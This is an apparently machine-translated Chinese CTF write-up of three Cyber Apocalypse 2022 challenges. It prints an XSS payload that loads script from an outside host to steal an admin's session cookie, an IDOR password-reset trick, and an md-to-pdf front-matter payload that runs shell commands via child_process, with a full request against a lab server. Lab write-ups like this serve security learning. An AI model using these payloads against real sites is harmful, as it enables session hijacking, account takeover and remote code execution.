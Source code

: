 # 网络启示录 CTF 2022——星际追逐报道

> 原文：<https://infosecwriteups.com/cyber-apocalypse-ctf-2022-intergalactic-chase-write-up-6d2e89b1633e?source=collection_archive---------1----------------------->

![](img/c6142e83e18dbf5f52b0e176d01606da.png)

[https://CTF . hackthebox . com/static/ca/cyber _ 启示录 _2022_ca.jpg](https://ctf.hackthebox.com/static/ca/cyber_apocalypse_2022_ca.jpg)

大家好，我是 **Hac** ，今天我们要做的是 2022 年 CTF 网络启示录，特别是这些挑战

```
**- Kryptos Support (Web)
- BlinkerFluids  (web)
- Compressor (Misc)**
```

我们将首先从**氪星支持(Web)开始。**我们走吧 **………**

![](img/71935a75474d1a9c5a7b1bed98718a38.png)

在访问该页面时，我们看到有一个输入字段，我们可以在那里输入一些内容，然后由管理员检查(这就像一个报告系统，我们的报告将由管理员用户或其他用户组检查)。

![](img/c471dc2c170dd6c2045a3cffef2aeecc.png)

我想知道我能做些什么，我已经玩了很多 CTF 的(仍然是一个新手)，所以我想试试 XSS，但不是你的传统警报(1)，因为事情没有在我们这边发生，我们需要知道我们的有效载荷是否工作。这就是为什么我使用 [XSShunter](https://xsshunter.com/) 有其他方法来做这项工作，但我将坚持使用 [XSShunter](https://xsshunter.com/) 。这是我们的有效载荷🢃

```
"><script src=[https://](https://hac10101.xss.ht)someone-in-somewhere-redacted.com></script>
```

![](img/16e468289feb4c17d06aabbc18607a4e.png)

我们的 XSS 有效载荷爆炸了，我在想我在这里能做什么？对我来说很有趣的一件事是我们可以吃到饼干。该用户可能是管理员或具有相同或稍低权限的其他用户。

因为我们身边没有饼干，所以我对饼干很感兴趣。

![](img/9846d351f1359b364276646b6fcc42ad.png)

```
##### Cookies (Non-HTTPOnly)
`session=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6Im1vZGVyYXRvciIsInVpZCI6MTAwLCJpYXQiOjE2NTI1MzQ4ODV9.JO12yEA44QxXgfUmL3n6Sm4Et2AJc5rkvXkvSMdmFOI`
```

现在我们可以在浏览器中添加这个 cookie 了。

![](img/e390d3c5fa739eb37e6222e8bda4a38d.png)

添加 cookie

之后，我们将导航到/tickets(感谢我出色的团队成员 [**KDirectorate**](https://twitter.com/KDirectorate) )。

![](img/411b218d9adc0b20a8affcee925c2ec7.png)

我想知道我能在这里做什么，这个页面似乎是静态的(除了一些东西)。我试了/RFID/一些号码，但都不成功

![](img/d9990220ca1ce91b9c314419323bc70e.png)![](img/97088e4fb3d23753e086dcca7c16c75d.png)

然后我的一个队友( [**KDirectorate**](https://twitter.com/KDirectorate) )对“检查/设置哪个有密码重置功能”说，真的很有意思。我导航到/setting 并截取了 burp suite 中的响应。

![](img/4c4b03e4845e5a7d930481c532b7c7cc.png)

一个是“密码”，另一个是“uid”(就像用户名)。

![](img/d21bc956bd23e0319029c47fb24d66df.png)![](img/a2897b94f42d8d12652d4183b5542eed.png)

然后我想如果我把 **uid** 的值改成 1 呢？(大多数情况下 1 =管理员)

![](img/5a00d2a37eadd5d35e986e3afd6f2074.png)![](img/18cd50a3b5a9d29b386efc719a77d733.png)

然后我就可以修改管理员的密码了。之后，我尝试以管理员身份登录，并成功了。

![](img/b8b57440b7b81fe1e5a2bafe0e462f16.png)![](img/0b55fb0e37720672a2dd2c2554856c2b.png)

# **BlinkerFluids(卷筒纸)**

在这个挑战中， **md-to-pdf** 中有一个 **RCE** ，我们将使用它来获取标志(感谢[**k Directorate**](https://twitter.com/KDirectorate)**)**如果我们检查挑战文件，我们将遇到🢃

```
'--no-sandbox', '--js-flags=--noexpose_wasm,--jitless
```

![](img/8588f48e50d2ebd1fddebb9beddf07e0.png)

这里没有“—没有沙箱”意味着我们可以访问主机环境。

我用来了解这种利用的一些资源

 [## 远程代码执行(RCE)MD-to-pdf | CVE-2021-23639 | Snyk

### 您的应用程序使用这个易受攻击的包吗？只需点击几下鼠标，我们就可以分析您的整个应用程序，并了解…

security.snyk.io](https://security.snyk.io/vuln/SNYK-JS-MDTOPDF-1657880) [](https://github.com/simonhaenisch/md-to-pdf/issues/99) [## 安全性:灰质暴露了导致任意代码执行问题的前端问题 JS-engine…

### 此时您不能执行该操作。您已使用另一个标签页或窗口登录。您已在另一个选项卡中注销，或者…

github.com](https://github.com/simonhaenisch/md-to-pdf/issues/99) 

因此，我们将在 burp suite 中截取响应，我将添加我的有效载荷。

```
---js\n((require('child_process')).execSync('id > /tmp/RCE.txt'))\n---RCE
```

![](img/87a99dcf495777bec341c09332819bbc.png)![](img/fff908aea1c0249435e0330c03067a0e.png)

我们能够执行我们的代码

```
POST /api/invoice/add HTTP/1.1
Host: 46.101.27.51:32374
Content-Length: 24
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/101.0.4951.54 Safari/537.36
Content-Type: application/json
Accept: */*
Origin: [http://46.101.27.51:32374](http://46.101.27.51:32374)
Referer: [http://46.101.27.51:32374/](http://46.101.27.51:32374/)
Accept-Encoding: gzip, deflate
Accept-Language: en-GB,en-US;q=0.9,en;q=0.8
Connection: close{"markdown_content":"---js\n((require('child_process')).execSync('ls > static/RCE.txt'))\n---RCE"}
```

我们可以通过简单的枚举来获得标志。

**压缩机(杂项)**

在这个挑战中，我们将利用命令注入来获取 flag。

![](img/b7407711125ca4a4dce4b29e8b5d9d97.png)

这个很简单，所以我会很快完成

![](img/4f2f629477ea6de67c731b64a77856f6.png)![](img/7a0bf4a0c505c1acaf4b64090612682d.png)

我们能够执行不同的命令，通过简单的枚举，我们可以找到标志。